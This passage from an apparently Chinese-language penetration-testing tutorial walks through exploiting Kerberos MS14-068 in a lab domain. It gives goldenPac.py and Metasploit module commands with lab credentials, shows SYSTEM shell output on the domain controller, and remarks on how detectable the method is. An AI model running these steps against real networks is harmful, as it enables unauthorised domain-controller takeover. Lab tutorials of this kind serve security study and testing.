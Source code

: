 使用PSTools目录下的PsExec.exe获取shell

![image-20210225123833369](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210225123833369.png)

拿到域控的shell,可以做任何事了。

#### 6.2 glodenPac.py

glodenPac.py 是一个用于对 Kerberos 进行测试的工具，它集成在 impacket 工具包中，存放在 impacket-master/examples.

```cmd
python glodenPac.py 域名/域成员用户:域成员用户密码@域控制器地址
```

kali 中安装客户端

```bash
apt-get install krb5-user -y
```

命令

```bash
python goldenPac.py sec1.com/user01:123.com@10.1.1.10
```

出现错误请看

```txt
https://note.f5.pm/go-37050.html
```

![image-20210225134446673](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210225134446673.png)

得到域控shell.

```baSH
C:\Windows\system32>whoami
nt authority\system
```

goldenPac.py 是通过 PsExec（被查杀） 获得shell的，会产生大量日志。

容易被发现。

#### 6.3 MSF

```bash
use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
```

设置相关信息，exploit,生成 bin 文件

```bash
msf6 auxiliary(admin/kerberos/ms14_068_kerberos_checksum) > show options 

Module options (auxiliary/admin/kerberos/ms14_068_kerberos_checksum):

   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    sec1.com                                       yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  123.com                                        yes       The Domain User password
   RHOSTS    10.1.1.10                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      user01                                         yes       The Domain User
   USER_SID  S-1-5-21-601821460-1582217486-3021982610-1112  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000

msf6 auxiliary(admin/kerberos/ms14_068_kerberos_checksum) > run 
```